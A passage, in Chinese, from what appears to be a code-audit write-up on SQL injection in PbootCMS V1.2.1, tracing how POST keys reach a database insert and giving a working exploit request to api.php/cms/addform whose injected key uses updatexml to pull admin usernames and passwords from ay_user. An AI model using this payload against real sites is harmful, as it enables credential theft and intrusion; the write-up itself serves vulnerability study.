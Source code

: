 可以看到，整个逻辑下来的意思就是说，查询出数据库一条数据，然后接收外部 POST 内容，只匹配数据库的字段，相同才会拼接到 $_data数组

```
然后就会带入 $this->model->addMessage(data) 执行语句 
```

文件：PbootCMS-V1.2.1\apps\api\model\CmsModel.php
函数：addMessage(

```
// 新增留言
    public function addMessage($table, $data)
    {
        return parent::table('ay_message')->autoTime()->insert($data);
    } 
```

根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key 带入数据库查询引发注入

## 0x10.3 接口注入三

### 0x10.3.1 漏洞利用

```
url：http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/addform?fcode=1
post:
    contacts[content`) VALUES ( updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1) );-- a] = 111
    mobile = 111
    content = 123 
```

![image](img/3931016516826deb773af58425e7749f.png)

0x10.3.2 漏洞讲解

```
// 表单提交  注入
    public function addform()
    {
        if ($_POST) {

```
 if (! $fcode = get('fcode', 'var')) {
            json(0, '传递的表单编码fcode有误！');
        }
